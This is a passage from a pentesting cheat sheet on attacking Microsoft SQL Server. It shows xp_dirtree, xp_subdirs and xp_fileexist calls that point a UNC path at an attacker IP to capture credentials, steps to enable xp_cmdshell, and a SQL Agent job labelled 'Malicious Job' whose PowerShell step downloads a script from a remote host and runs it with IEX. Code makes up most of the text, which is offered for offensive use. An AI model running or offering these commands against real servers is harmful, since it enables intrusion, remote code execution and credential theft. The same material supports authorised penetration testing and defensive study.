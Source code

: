 ```sql
EXEC xp_dirtree '\\<IP>\a';
EXEC xp_subdirs '\\<IP>\a';
EXEC xp_fileexist '\\<IP>\a';
```

## Command Execution

After escalating privileges to a `login` with the `sysadmin` role its possible to get CE.

* Using xp\_cmdshell
* Creating a MSSQL Server Agent Job
* Create and execute [OLE Automation stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/ole-automation-stored-procedures-transact-sql?view=sql-server-ver16).

#### Enable xp\_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# Test
EXEC xp_cmdshell 'whoami';
```

### <mark style="color:yellow;">Command Execution via MSSQL Server Agent Job</mark>

Create a new job which uses Powershell to download and execute a script.

```sql
USE msdb;  
GO

EXEC sp_add_job  
    @job_name = N'Malicious Job';
GO

EXEC sp_add_jobstep  
    @job_name = N'Malicious Job',
    @step_name = N'Execute PowerShell Script',
    @subsystem = N'PowerShell',
    @command = N'(New-Object Net.WebClient).DownloadString("http://10.10.14.104/a")|IEX;',
    @retry_attempts = 5,
    @retry_interval = 5;
GO

EXEC sp_add_jobserver  
    @job_name = N'Malicious Job';
GO

EXEC sp_start_job
    @job_name = N'Malicious Job';
GO
```
